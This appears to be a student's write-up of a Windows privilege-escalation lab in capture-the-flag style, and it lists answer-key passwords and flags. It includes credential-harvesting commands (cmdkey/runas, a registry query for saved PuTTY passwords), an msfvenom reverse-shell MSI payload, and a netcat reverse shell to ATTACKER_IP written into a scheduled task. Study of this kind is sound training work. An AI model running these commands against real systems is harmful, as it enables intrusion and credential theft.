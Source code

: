 Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

##   Answer the questions below

**A password for the julia.jones user has been left on the Powershell history. What is the password?**

- ZuperCkretPa5z

**A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?**

- 098n0x35skjD3

**There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.**

1. cmdkey /list 
2. runas /savecred /user:mike.katz cmd.exe
3. THM{WHAT_IS_MY_PASSWORD}

**Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?**

1. reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "ProxyPassword" /s
2. CoolPass2021

* * * 

## Task 4 - Other Quick Wins 

- ``schtasks`` lists scheduled tasks.
- ``schtasks /query /tn TASK_NAME /fo list /v`` - list detailed information on a task. We want to look at **Task to Run:** and **Run As User**. If the current user can modify or overwrite the Task to Run executable we can do privesc. 
- ``icalcs`` check file permissions

- AlwaysInstallElevated we can generate installers with malicious .msi files using msvenom eg ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.42.60 LPORT=LOCAL_PORT -f msi -o malicious.msi``

##   Answer the questions below

**What is the taskusr1 flag?**

- ``echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat``
- setup netcat listener
- flag is on desktop

* * * 

## Task 5 - Abusing Service Misconfigurations 

